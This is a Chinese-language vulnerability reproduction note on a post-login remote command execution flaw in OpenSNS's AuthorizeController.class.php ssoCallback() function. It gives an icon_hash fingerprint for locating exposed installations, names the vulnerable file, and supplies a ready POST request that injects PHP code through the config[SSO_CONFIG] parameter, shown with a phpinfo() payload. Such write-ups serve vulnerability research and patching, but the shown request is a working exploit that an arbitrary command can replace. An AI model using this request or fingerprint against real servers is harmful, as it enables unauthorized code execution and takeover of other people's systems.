 # OpenSNS AuthorizeController.class.php 后台远程命令执行漏洞

## 漏洞描述

OpenSNS AuthorizeController.class.php文件 ssoCallback() 函数存在命令执行漏洞，在登录的情况下可以获取服务器权限

## 漏洞影响

```
OpenSNS
```

## 网络测绘

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154117028](images/202205181541097.png)

存在漏洞的文件为 `Application/Admin/Controller/AuthorizeController.class.php`

![image-20220518154127216](images/202205181541309.png)

其中 config参数可控，构造请求就可以通过 file_put_contents 写入执行任意命令

![image-20220518154143157](images/202205181541252.png)

构造请求包

```
POST /admin.php?s=/Authorize/ssoCallback\

config[SSO_CONFIG]=phpinfo();
```

![image-20220518154206103](images/202205181542195.png)